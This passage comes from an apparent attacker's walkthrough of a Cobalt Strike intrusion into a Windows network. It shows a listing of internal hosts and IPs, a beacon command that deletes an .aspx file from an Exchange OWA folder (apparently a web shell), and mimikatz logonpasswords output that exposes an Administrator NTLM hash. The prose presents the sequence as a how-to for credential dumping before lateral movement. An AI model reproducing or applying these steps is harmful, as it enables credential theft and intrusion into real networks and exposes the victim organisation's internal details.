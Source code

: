 ```
 REC3                    192.168.0.79                     500       6.1             
 REC4                    172.16.20.24                     500       6.1             
 REGSTAT2                172.16.20.26                     500       6.1             
 REGVIP                  172.16.20.27                     500       6.1             
 SHEF                    172.16.2.202                     500       6.1             
 SHEFKONDITER            172.16.10.9                      500       6.1             
 SKLAD3                  172.16.2.23                      500       6.1             
 SLOTBOSS                172.16.3.199                     500       10.0            
 SLOTMANAGER             172.16.13.138                    500       6.1             
 TECHNOLOG               172.16.3.134                     500       6.1             
 TS-3                    172.16.20.241                    500       10.0            
 TS-5                    172.16.4.53                      500       10.0            
 ULYA_URASKINA           172.16.2.128                     500       6.1             
 URIST                   172.16.5.112                     500       6.1             
 VEEAMVCENTER            172.16.0.59                      500       6.3             
 ZAV-SKLAD-L2            172.16.3.103                     500       6.1

beacon> rm C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\Fr7kkADqp.aspx
```

Looks like we have a total of 55 computers to hop around in the network Normally you should run `getuid` beacon command that even metasploit comes with to understand
what privileges you're in however it wasn't necessary to do it since Cobalt Strike has a nice GUI frontend that tell us we are `NT AUTHORITY\SYSTEM` so the next step before
we continue on lateral movement and **Privilege Escalation** wasn't an issue for us, we have to dump the credentials using API`hashdump` or mimikatz shortcut
command in beacon `logonpasswords`.

```
beacon> logonpasswords
[*] Tasked beacon to run mimikatz's sekurlsa::logonpasswords command
[+] host called home, sent: 296206 bytes
[+] received output:

Authentication Id : 1 ; 2658188168 (00000001:9e70bb88)  
Session           : NewCredentials from 0  
User Name         : SYSTEM  
Domain            : NT AUTHORITY  
Logon Server      : (null)  
Logon Time        : 3/23/2022 6:34:04 PM  
SID               : S-1-5-18  
       msv :      
        [00000003] Primary  
        * Username : Administrator  
        * Domain   : EXEMS  
        * NTLM     : f650a2ecaa6d7ed6937ad3934faef2b9  
       tspkg :    
       wdigest :          
        * Username : Administrator  
        * Domain   : EXEMS  
        * Password : (null)  
       kerberos :         
        * Username : Administrator  
        * Domain   : EXEMS  
        * Password : (null)  
       ssp :      
       credman :
..[snip]..
```
